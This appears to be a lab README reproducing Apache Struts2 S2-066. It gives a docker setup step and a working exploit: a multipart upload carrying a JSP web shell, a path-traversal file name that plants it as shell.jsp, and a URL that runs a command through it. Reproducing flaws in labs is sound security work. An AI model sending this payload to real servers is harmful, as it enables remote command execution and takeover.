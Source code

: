# Struts2 S2-066

[中文版本(Chinese version)](README.zh-cn.md)

## Setup

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8080/struts-1.0-SNAPSHOT` and you will see a simple page.

## Exploit

```
POST /struts-1.0-SNAPSHOT/upload.action HTTP/1.1
Host: 127.0.0.1
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
Content-Disposition: form-data; name="Upload"; filename="1.txt"
Content-Type: text/plain

<% if("test".equals(request.getParameter("pwd"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print("<pre>"); while((a=in.read(b))!=-1){ out.println(new String(b)); } out.print("</pre>"); } %>
--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
Content-Disposition: form-data; name="uploadFileName"; 
Content-Type: text/plain

../shell.jsp
--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN--

```

`http://127.0.0.1:8080/struts-1.0-SNAPSHOT/shell.jsp?pwd=test&cmd=whoami`
